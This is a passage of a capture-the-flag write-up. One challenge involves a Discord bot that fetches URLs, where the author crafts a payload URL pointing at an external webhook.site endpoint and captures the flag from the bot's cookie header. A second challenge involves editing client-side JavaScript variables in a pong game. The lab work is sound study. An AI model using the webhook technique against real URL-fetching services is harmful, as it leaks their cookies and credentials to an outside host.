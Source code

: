 ```

client.on("message", msg => {
	if(!(msg.channel instanceof discord.DMChannel))
		return;

	let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
	let match = msg.content.match(url);
	if(match) {
		scout(match[0], match[2]).then(res => {
			if(res.length > 0) {
				msg.channel.send(res);
			}
		});
	} else {
		if(msg.content.toLowerCase().includes("owl") || msg.mentions.has(client.user.id)) {
			msg.channel.send("✨🦉 hoot hoot 🦉✨");
		}
	}
});
```
Normally we are asked to craft a payload and bypass the regex. But this time it asked to be matched ``if(match)``.  <br>
I also need to include "owl" in the payload because of this  ``if(!url.includes("owl"))``. <br>
The flag is set into a cookie so I have to make a webhook using [webhook.site](https://webhook.site/). 
Payload:
```
https://webhook.site/c9dcea90-69c1-40a4-ba1f-0b378de0a8ef/owl
```
Since the regex is match and "owl" is included, we can see the flag placed in cookie header in the webhook site.<br>
![image](https://user-images.githubusercontent.com/63649797/200321320-f62b6fb3-7df0-4d53-aa61-4190ee9d44c1.png)
```
Flag: buckeye{7h3_m0r3_17_5335_7h3_1355_17_h0075}
```

## > pong (web)
I dug up my first ever JavaScript game, but this time, my AI is unbeatable!! Hah!

### Steps
We are given a classic web ping-pong JavaScript game. Since JavaScript is a client-side language, we can change the value of some variables that is used in the game. From the source code, we can see some variables like s1, s2, p1, p2, bx, by. <br>
``s1`` is score user 1. <br>
``p1`` is the bat. <br>
``bx`` is the ball location on x-axis, vice versa. <br>

After trying all the variables, I found out that I can control the score and the ball's position. Change the score value to win didn't give me the flag. Then I tried to change the ball's x-position, beyond the enemy's bat. I got the flag! <br>
